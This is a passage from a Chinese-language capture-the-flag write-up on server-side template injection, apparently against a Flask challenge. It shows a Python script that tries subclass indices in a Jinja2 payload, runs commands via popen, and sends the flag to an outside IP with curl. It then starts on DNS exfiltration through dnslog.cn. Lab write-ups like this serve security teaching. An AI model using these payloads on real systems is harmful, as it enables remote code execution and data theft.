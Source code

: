 ```plain
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    try:
        url = "http://xxx.xxx.xxx.xxxx:5000/level/3"
        data={"code":'{{().__class__.__bases__[0].__subclasses__()['+str(i)+'].__init__.__globals__["popen"]("curl http://124.222.255.142:7777/`cat flag`").read()}}'}
        res = requests.post(url=url,data=data, headers=headers)

    except:
        pass
```

然后在 vps 上监听 7777 端口即可  
[![在这里插入图片描述](assets/1698900310-d45f3d0c15ae83658642d665586d9dbf.png)](https://storage.tttang.com/media/attachment/2022/08/14/66562dae-002a-434b-a24c-192d81c5094e.png)  
或者利用 dns 外带，也是可以的，构造脚本如下  
这个的话我们需要先了解一下 dns 这个东西，可以参考这篇文章[https://xz.aliyun.com/t/9747](https://xz.aliyun.com/t/9747)  
我们这里先测试一下，进入网站[http://dnslog.cn/](http://dnslog.cn/)  
点一下这个  
[![在这里插入图片描述](assets/1698900310-d8fb6c0fdd0a4cea7b985cd8ad4f4345.png)](https://storage.tttang.com/media/attachment/2022/08/14/3bca8a52-b9d4-48dc-9d3d-6c3ba6219583.png)  
出现了`mlbj8n.dnslog.cn`  
此时我们打开 cmd，利用 ping 命令执行一下命令
